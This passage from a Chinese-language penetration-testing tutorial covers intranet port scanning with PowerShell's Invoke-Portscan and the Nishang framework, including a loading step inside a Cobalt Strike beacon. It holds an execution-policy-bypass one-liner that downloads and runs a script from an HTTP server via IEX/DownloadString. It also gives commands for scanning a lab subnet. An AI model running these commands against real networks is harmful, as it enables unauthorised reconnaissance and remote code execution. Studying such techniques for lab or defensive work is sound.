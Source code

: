 ```
powershell -exec bypass Import-Module .\Invoke-Portscan.ps1;Invoke-Portscan -Hosts 192.168.70.0/24 -T 4 -ports '445,8080,3389,80' -oA c:\1.txt
```

远程执行 

`python -m http.server 80` 开启http服务

```
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.70.130:80/Invoke-Portscan.ps1');Import-Module .\Invoke-Portscan.ps1;Invoke-Portscan -Hosts 192.168.70.14 -T 4 -ports '445,8080,3389,80' ‐oA c:\1.txt
```

## Nishang

Nishang是一款针对PowerShell的渗透工具。说到渗透工具，那自然便是老外开发的东西。国人开发的东西，也不 是不行，只不过不被认可罢了。不管是谁开发的，既然跟渗透有关系，那自然是对我们有帮助的，学习就好。来源 什么的都不重要。总之，nishang也是一款不可多得的好工具。非常的好用。

 下载地址 https://github.com/samratashok/nishang 

课后阅读 https://dude6.com/article/116047.html 

使用方式

```
#允许导入
powershell Set-ExecutionPolicy remotesigned 

#导入模块
powershell Import-Module .\nishang\nishang.psm1

#扫描
powershell Invoke-PortScan -StartAddress 192.168.70.1 -EndAddress 192.168.70.21 -ResolveHost

#或者导入+扫描
powershell -command "& { import-module .\nishang\nishang.psm1; Invoke-PortScan -StartAddress 192.168.70.1 -EndAddress 192.168.70.21 -ResolveHost -ScanPort -port 445 }"
```

CS导入nishang

```
#导入各种powershell脚本，这里可以导入nishang模块
beacon> powershell-import nishang\nishang.psm1

#执行
beacon> powershell powershell的脚本名
或者
beacon> powershell Check‐VM

powershell Invoke-PortScan -StartAddress 192.168.70.1 -EndAddress 192.168.70.21 -ResolveHost
```

![image-20221230120932924](https://img.gyxnb.top/img/image-20221230120932924.png)
